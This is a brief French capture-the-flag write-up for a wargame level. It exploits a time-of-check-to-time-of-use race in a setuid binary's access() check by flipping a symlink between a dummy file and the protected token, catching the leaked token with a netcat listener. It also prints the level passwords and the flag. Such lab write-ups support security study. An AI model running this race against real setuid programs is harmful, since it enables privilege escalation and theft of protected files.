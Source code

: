 ## Step 1: Login
`su level09`

**password:** s5cAJpM8ev6XHw998pRWG728z

## Step 2: Find flag

`ltrace`

On doit passer le *access()*

On aleterne tres vite entre 2 fichiers entre le toekn et son lien symbolique:

`while true; do ln -fs /tmp/t /tmp/tok; ln -fs ~/token /tmp/tok; done &`

`while true; do ./level10 /tmp/tok 127.0.0.1; done`

`nc -lk localhost 6969`
> woupa2yuojeeaaed06riuj63c

`su flag10`

**password:** woupa2yuojeeaaed06riuj63c

`getflag`
> feulo4b72j7edeahuete3no7c